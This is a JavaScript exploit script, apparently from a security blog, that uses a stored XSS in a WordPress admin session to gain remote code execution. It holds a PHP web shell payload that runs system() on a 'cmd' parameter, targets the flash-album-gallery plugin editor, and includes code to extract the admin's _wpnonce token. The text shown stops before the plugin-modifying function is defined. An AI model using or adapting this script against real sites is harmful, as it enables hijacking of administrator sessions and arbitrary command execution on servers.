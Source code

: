     :::Javascript
     /* 
     * Copyright: Nikolai Tschacher.
     * Site: incolumitas.com
     * Easy as pie.
     * What: Use this code when you found a stored XSS in a wordpress plugin to gain RCE.
     * How: A wordpress admin needs to run this code in his browser with a valid session id.
     * Idea: Mofify the flash-album-gallery plugin via wordpress admin panel.
     * 
     * Note: This is actually nothing new. It's just one of many ways to gain RCE
     *       if you have a stored XSS in a wordpress session.
     */

    // Without php tags
    // HTML meta chars are in character entity references format.
    var EXPLOIT_CODE = "\nif (isset($_GET[&#039;cmd&#039;])&amp;&amp; !empty($_GET[&#039;cmd&#039;])){ echo &#039;<pre>&#039;;system($_GET[&#039;cmd&#039;]);echo &#039;</pre>&#039;; }";

    // TARGET SETTINGS. Set stuff here.
    var TARGET_WP_PATH = "http://localhost/wordpress";
    var PLUGIN_EDITOR_URL = TARGET_WP_PATH + "/wp-admin/plugin-editor.php";
    var PLUGIN_EDIT_URL = PLUGIN_EDITOR_URL + "?file=flash-album-gallery/flag.php";


    function getXMLHttpRequestObject() {
        var ref = null;
        if (window.XMLHttpRequest) { // For recent browsers.
            ref = new XMLHttpRequest();
        } else if (window.ActiveXObject) { // Older IE 6,7,8
            ref = new ActiveXObject("MSXML2.XMLHTTP.3.0");
        }
        return ref;
    }

    /* Extract the nonce */
    function exploit() {
        var req = null;

        req = getXMLHttpRequestObject();
        req.onreadystatechange = function() {
            if (req.readyState == 4 && req.status == 200) {
                var res = /name="_wpnonce"\svalue=\"[a-z0-9]{10}\"/.exec(req.responseText);
                if (res.length == 1) {
                    nonce =  /[a-z0-9]{10}/.exec(res[0]);
                } else { // The sites not available. Maybe the plugin is not installed?!
                    nonce = null;

                }
                modify_plugin(req.responseText, nonce);
            }
        }
        req.open("GET", PLUGIN_EDIT_URL, true);
        req.send();
    }
